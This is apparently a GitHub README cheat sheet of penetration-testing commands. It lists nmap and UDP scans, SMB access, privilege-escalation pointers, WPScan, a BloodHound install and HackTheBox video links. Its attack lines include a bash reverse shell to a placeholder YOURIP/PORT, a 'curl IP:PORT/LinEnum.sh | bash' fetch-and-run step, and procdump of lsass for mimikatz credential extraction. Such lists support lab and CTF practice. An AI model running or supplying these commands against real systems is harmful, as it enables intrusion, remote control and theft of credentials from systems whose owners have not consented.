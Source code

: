 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>SMB scan</b>
<ul>
  <li> smbclient -N //ip/sharename
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
  <li> https://github.com/ohpe/juicy-potato  
</ul>

    
<b>Shell</b>
<ul>
  <li> python -c 'import pty; pty.spawn("/bin/sh")'
  <li> python -c 'import pty; pty.spawn("/bin/bash")'
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>


<b>IPSEC hackthebox</b>
<ul>
  <li> juicypotato windows priv esc - Conceal https://www.youtube.com/watch?v=1ae64CdwLHE
  <li> setuid viewuser - Irked https://www.youtube.com/watch?v=OGFTM_qvtVI
  <li> hackthebox squid server - https://www.youtube.com/watch?v=5wyvpJa9LdU
</ul>

<b>Bloodhound</b>
<ul>
  <li> wget -O - https://debian.neo4j.org/neotechnology.gpg.key | sudo apt-key add -
  <li> echo 'deb https://debian.neo4j.org/repo stable/' | sudo tee /etc/apt/sources.list.d/neo4j.list
  <li> sudo apt-get update
  <li> apt-get install neo4j
  <li> apt-get install bloodhound
  <li> neo4j start (set the admin password in the browser)
  <li> bloodhound
</ul>

<b>Screenshot</b>
<ul>
  <li>gowitness-2.1.2-windows-amd64.exe scan --cidr 192.168.230.0/24 --threads 10
  <li>gowitness-2.1.2-windows-amd64.exe report serve
</ul>

<b>Procdump</b>
<ul>
  <li> procdump lsass https://www.onlinehashcrack.com/how-to-procdump-mimikatz-credentials.php
  <li>
</ul>
